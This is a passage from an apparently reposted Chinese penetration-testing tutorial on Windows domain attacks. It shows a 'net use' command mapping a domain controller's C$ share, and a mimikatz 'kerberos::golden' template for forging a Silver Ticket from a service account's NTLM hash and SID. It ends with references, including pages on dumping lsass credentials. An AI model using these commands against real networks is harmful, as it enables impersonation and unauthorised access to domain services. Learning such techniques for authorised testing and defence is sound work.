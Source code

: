 [![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220821-e83d39ee-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220821-e83d39ee-f279-1.png)

尝试将域控的C盘映射到本地的K盘：

```
net use K: \\WIN08\c$
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220846-f74b0cb8-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220846-f74b0cb8-f279-1.png)

## 白银票据(Silver Ticket)

白银票据的本质是一张ST(Service Ticket)，也就是使用要访问的服务器的hash来伪造白银票据。区别于黄金票据的是白银票据只能访问指定的服务，但白银票据的优点是于目标服务器不经过DC直接交互。

对于白银票据的生成也有以下几点要求：

- 目标服务账户的NTLM Hash
- 目标服务器账户的sid

### mimikatz生成

假设我们拿到目标服务账户的NTLM Hash和sid

然后使用mimikatz生成一张可以访问WIN2003的白银票据：

```
kerberos::golden /domain:<所属域名称> /sid:<服务账户sid> /target:<目标服务器的FQDN> /service:<要访问的服务> /rc4:<服务账户NTLM Hash> /user:<要伪造的用户> /ptt
```

之后就可以访问目标服务器上对应的服务

# 参考文章

- https://github.com/l3m0n/pentest_study
- https://blog.csdn.net/qq_36119192/article/details/85941222
- https://green-m.me/2019/01/24/play-with-kerberos/
- https://www.anquanke.com/post/id/175364
- https://www.freebuf.com/sectool/112594.html
- [https://patrilic.top/2019/05/05/Windows%20%E6%8A%93%E5%8F%96Hash/](https://patrilic.top/2019/05/05/Windows 抓取Hash/)
- [https://wh0ale.github.io/2018/12/25/2018-12-25-%E5%9F%9F%E6%B8%97%E9%80%8F%E4%B9%8B%E7%A5%A8%E6%8D%AE/](https://wh0ale.github.io/2018/12/25/2018-12-25-域渗透之票据/)
- [http://paper.vulsee.com/Micro8/%E7%AC%AC%E4%B8%80%E7%99%BE%E9%9B%B6%E4%BA%94%E8%AF%BE%EF%BC%9Awindows%20%E5%8D%95%E6%9C%BA%E5%85%8D%E6%9D%80%E6%8A%93%E6%98%8E%E6%96%87%E6%88%96hash%20%5B%E9%80%9A%E8%BF%87dump%20lsass%E8%BF%9B%E7%A8%8B%E6%95%B0%E6%8D%AE%5D.pdf](http://paper.vulsee.com/Micro8/第一百零五课：windows 单机免杀抓明文或hash [通过dump lsass进程数据].pdf)



原文地址：https://xz.aliyun.com/t/6600  侵删！

